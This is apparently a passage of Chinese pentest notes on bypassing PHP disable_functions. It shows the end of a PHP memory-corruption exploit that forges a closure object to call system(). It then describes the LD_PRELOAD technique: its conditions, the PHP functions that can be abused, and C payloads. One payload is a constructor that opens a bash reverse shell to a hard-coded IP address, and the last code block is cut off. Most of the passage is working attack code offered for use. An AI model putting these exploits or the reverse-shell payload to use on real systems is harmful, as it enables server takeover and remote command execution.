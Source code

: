 ```php
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
?>
```
# LD_PRELOAD
### 文章
[利用LD_PRELOAD绕过disbale_functions](https://www.windylh.com/2019/03/26/%E5%88%A9%E7%94%A8LD_PRELOAD%E7%BB%95%E8%BF%87disbale_functions/)<br />[无需sendmail：巧用LD_PRELOAD突破disable_functions - Hookjoy - 博客园](https://www.cnblogs.com/hookjoy/p/10167315.html)
### 适用条件

- 需要找寻某个PHP函数，启动了新的进程
- `putenv()`可用
### 一些可利用的函数
`**mail**`<br />`**imap_open**`<br />`**error_log**`<br />`**syslog**`<br />`**imagick**`<br />`**mb_send_mail**`
### 一些Payload
```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("bash -c 'bash -i >& /dev/tcp/114.116.119.253/7777 <&1'");

}
```
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

char *getfileall(char *fname)
{
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;
    //打开一个文件
```